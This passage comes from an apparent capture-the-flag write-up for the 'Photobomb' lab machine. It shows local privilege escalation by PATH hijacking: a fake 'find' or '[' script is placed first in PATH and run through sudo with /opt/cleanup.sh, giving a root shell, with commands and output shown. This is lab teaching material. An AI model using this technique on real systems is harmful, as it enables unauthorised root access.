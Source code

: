 

Running this `find` just starts a new `bash` instance as the current
user.

Now I'll run `cleanup.sh` as root but with the `PATH` variable including
the current directory at the front of the path:



    wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
    root@photobomb:/home/wizard/photobomb#



It returns a root shell. And I can read `root.txt`:



    root@photobomb:~# cat root.txt
    bbfa4b76************************



#### Intended Path

I'm not sure where the `find` without the full path got added in, but
the original submission required a bit more knowledge of Bash, and the
builtin `[`. One of the mistakes I would also make when trying to use
the syntax `[ -s /some/file ]` would be not including a space after the
`[`. When you think of `[` in the same category as `{` or `(` in a
programming language, then the space doesn't make sense. But in Bash,
`[` is actually the same as `test`, and a program on the filesystem
([this
article](https://www.educative.io/courses/master-the-bash-shell/392YWp2pOv4)
shows more detail).

This is clean on Photobomb:



    wizard@photobomb:/dev/shm$ which [
    /usr/bin/[
    wizard@photobomb:/dev/shm$ file /usr/bin/[ 
    /usr/bin/[: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=99cfd563b4850f124ca01f64a15ec24fd8277732, for GNU/Linux 3.2.0, stripped



In a typical shell, the binary isn't called, as it's a [Bash
builtin](https://manpages.ubuntu.com/manpages/bionic/man7/bash-builtins.7.md).
So even with no `$PATH`, it can still be called (like `echo`):



    wizard@photobomb:/dev/shm$ export PATH=''
    wizard@photobomb:/opt$ [ -s cleanup.sh ] && echo "exists"
    exists



But, `enable -n [` disables it (see the [bash man
page](https://linux.die.net/man/1/bash)). That means that I can do the
same trick above, but with `[`:



    wizard@photobomb:/dev/shm$ rm find
    wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash' > [
    wizard@photobomb:/dev/shm$ chmod +x [
    wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
    root@photobomb:/dev/shm#







